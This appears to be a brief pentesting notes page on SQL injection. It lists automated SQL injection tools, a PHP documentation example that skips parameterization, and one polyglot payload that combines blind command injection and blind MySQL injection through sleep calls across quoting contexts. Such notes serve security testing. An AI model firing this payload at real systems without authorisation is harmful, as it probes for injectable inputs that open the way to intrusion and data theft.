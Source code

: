 # tools

- AutoSQLi: https://github.com/jesuiscamille/AutoSQLi
- SQLiDumper: https://www.cybrary.it/0p3n/pentesting-sqli-dumper-v8-tool/
- Automatic SQL injection with Charles and sqlmap api
  - http://0r1.me/SQLiScanner/
  - https://github.com/0xbug/SQLiScanner

# PHP

- Good example from DOCs, where parameterization is not used: http://php.net/manual/en/mysqli.examples-basic.php (use: https://phptherightway.com/)

# Payload

Combines blind command injection and blind sql injection ( mysql ) in one payload (works with no quotes/single quotes and double quotes):
```
/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
```
> https://mobile.twitter.com/bl4ckh4ck5/status/1100167033407320065
